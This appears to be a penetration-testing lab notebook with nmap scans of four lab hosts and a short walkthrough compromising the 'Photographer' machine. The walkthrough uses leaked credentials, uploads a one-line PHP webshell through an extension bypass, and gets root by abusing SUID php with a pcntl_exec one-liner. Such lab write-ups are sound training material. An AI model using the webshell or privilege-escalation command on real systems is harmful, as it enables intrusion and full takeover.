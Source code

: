 maguire-1: 192.168.100.224
Merciless: 192.168.100.39
morpheus-1: 192.168.100.22
adi-1: 192.168.100.149

## Maguire-1 192.168.100.224

Initial nmap scan:
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Immersion
```

## Merciless 192.168.100.39
Initial nmap scan:
```
53/tcp  open  domain      ISC BIND 9.9.5-3ubuntu0.17 (Ubuntu Linux)  
| dns-nsid:    
|_  bind.version: 9.9.5-3ubuntu0.17-Ubuntu  
110/tcp open  pop3        Dovecot pop3d  
|_pop3-capabilities: CAPA AUTH-RESP-CODE UIDL STLS SASL TOP PIPELINING RESP-CODES  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server  
| Not valid before: 2018-08-24T13:22:55  
|_Not valid after:  2028-08-23T13:22:55  
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
143/tcp open  imap        Dovecot imapd (Ubuntu)  
|_ssl-date: TLS randomness does not represent time  
|_imap-capabilities: OK LOGIN-REFERRALS STARTTLS IDLE IMAP4rev1 more listed SASL-IR have LOGINDISABLEDA0001 capabilities ENABLE Pre-login ID LITERAL+ post-  
login  
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server  
| Not valid before: 2018-08-24T13:22:55  
|_Not valid after:  2028-08-23T13:22:55  
445/tcp open              Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  
993/tcp open  ssl/imap    Dovecot imapd (Ubuntu)  
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server  
| Not valid before: 2018-08-24T13:22:55  
|_Not valid after:  2028-08-23T13:22:55  
995/tcp open  ssl/pop3    Dovecot pop3d  
|_ssl-date: TLS randomness does not represent time  
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server  
| Not valid before: 2018-08-24T13:22:55  
|_Not valid after:  2028-08-23T13:22:55  
Service Info: Host: MERCY; OS: Linux; CPE: cpe:/o:linux:linux_kernel  
  
Host script results:  
| smb-os-discovery:    
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)  
|   Computer name: mercy  
|   NetBIOS computer name: MERCY\x00  
|   Domain name: \x00  
|   FQDN: mercy  
|_  System time: 2023-10-25T07:19:11+08:00  
| smb-security-mode:    
|   account_used: guest  
|   authentication_level: user  
|   challenge_response: supported  
|_  message_signing: disabled (dangerous, but default)  
| smb2-security-mode:    
|   3:1:1:    
|_    Message signing enabled but not required  
|_nbstat: NetBIOS name: MERCY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)  
|_clock-skew: mean: -2h40m00s, deviation: 4h37m07s, median: -1s  
| smb2-time:    
|   date: 2023-10-24T23:19:11  
|_  start_date: N/A
```

## Morpheus 192.168.100.22
Initial nmap scan:
```
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)  
| ssh-hostkey:    
|_  256 aa:83:c3:51:78:61:70:e5:b7:46:9f:07:c4:ba:31:e4 (ECDSA)  
80/tcp open  http    Apache httpd 2.4.51 ((Debian))  
|_http-server-header: Apache/2.4.51 (Debian)  
|_http-title: Morpheus:1  
81/tcp open  http    nginx 1.18.0  
|_http-server-header: nginx/1.18.0  
| http-auth:    
| HTTP/1.1 401 Unauthorized\x0D  
|_  Basic realm=Meeting Place  
|_http-title: 401 Authorization Required  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Adi-1 192.168.100.149
Initial nmap scan:
```
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Photographer by v1n1v131r4  
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)  
445/tcp  open  @           Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)  
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-trane-info: Problem with XML parsing of /evox/about  
|_http-title: daisa ahomi  
|_http-generator: Koken 0.22.24  
|_http-open-proxy: Proxy might be redirecting requests  
Service Info: Host: PHOTOGRAPHER  
  
Host script results:  
| smb2-security-mode:    
|   3:1:1:    
|_    Message signing enabled but not required  
| smb-security-mode:    
|   account_used: guest  
|   authentication_level: user  
|   challenge_response: supported  
|_  message_signing: disabled (dangerous, but default)  
|_clock-skew: mean: 1h19m58s, deviation: 2h18m35s, median: -2s  
| smb-os-discovery:    
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)  
|   Computer name: photographer  
|   NetBIOS computer name: PHOTOGRAPHER\x00  
|   Domain name: \x00  
|   FQDN: photographer  
|_  System time: 2023-10-24T19:20:06-04:00  
| smb2-time:    
|   date: 2023-10-24T23:20:05  
|_  start_date: N/A  
|_nbstat: NetBIOS name: PHOTOGRAPHER, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

### 80

* apache site, seems useless

### 8000
* used daisa creds on /admin
* uploaded php webshell
	* `<?php system($_GET['cmd']);?>` > `balls.php.jpg`
	* pivoted to interactive php webshell cause it didn't work
	* used burp to change extension to balls.php
	* mouse over download file to get path
	* user flag: `d41d8cd98f00b204e9800998ecf8427e`

### 445
* found /sambashare
	* mailsent.txt
		* had creds daisa@photographer.com/babygirl
	* wordpress backup

### Privesc

SUID:
```
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/eject/dmcrypt-get-device
./usr/lib/xorg/Xorg.wrap
./usr/lib/snapd/snap-confine
./usr/lib/openssh/ssh-keysign
./usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/sbin/pppd
./usr/bin/pkexec
./usr/bin/passwd
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/php7.2
./usr/bin/sudo
./usr/bin/chsh
./usr/bin/chfn
./bin/ping
./bin/fusermount
./bin/mount
./bin/ping6
./bin/umount
./bin/su
```

* note php has SUID set
* used `php -r "pcntl_exec('/bin/sh', ['-p']);"` to spawn a root shell